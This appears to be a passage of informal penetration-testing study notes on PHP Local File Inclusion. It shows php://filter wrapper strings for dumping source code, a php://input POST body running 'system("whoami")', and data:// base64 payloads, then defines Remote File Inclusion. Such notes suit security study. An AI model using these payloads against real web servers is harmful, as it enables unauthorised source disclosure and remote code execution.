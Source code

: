     ![[Untitled 118.png]]
    
    There are versions of php which are vulnerable to NULL byte
    
    ![[Untitled 119.png]]
    
    ![[Untitled 120.png]]
    
- Wrappers
    
    The wrappers can be used to see the code of an page.
    
    This wrapper converts teh code to an encode b64 chain
    
    `php://filter/convert.base64-encode/resource=index.php`
    
    We also have the rot13
    
    `php://filter/read=string.rot13/resource=index.php`
    
    ![[Untitled 121.png]]
    
    Now the next one is more spicy. We know that trough LFI we can achieve an RCE, so this wrapper **iconv** allows us to do this.
    
    `php://filter/convert.iconv.utf-8.utf-16/resource=index.php`
    
      
    
    We can use this next wrapper by intercepting a request with Burpsuite abd changing the method to POST.
    
    `POST /?filename=php://input`  
      
    `<?php system(”whoami”); ?>`
    
    ![[Untitled 122.png]]
    
    `GET/?filename=data://text/plain;base64,<b64_chain>`
    
    ![[Untitled 123.png]]
    
    ![[Untitled 124.png]]
    
    As seen with this filter chains, w can change our b64 chain to add different characters, this allows us to create a payload.
    
    ![[Untitled 125.png]]
    
    ![[Untitled 126.png]]
    

## Remote File Inclusion (RFI)

Remote File Inclusion (RFI) vulnerability it’s a security flaw that an attacker can use to include remote files in a vulnerable web app. This may allow the attacker to execute malicious code in the server and compromise the system.
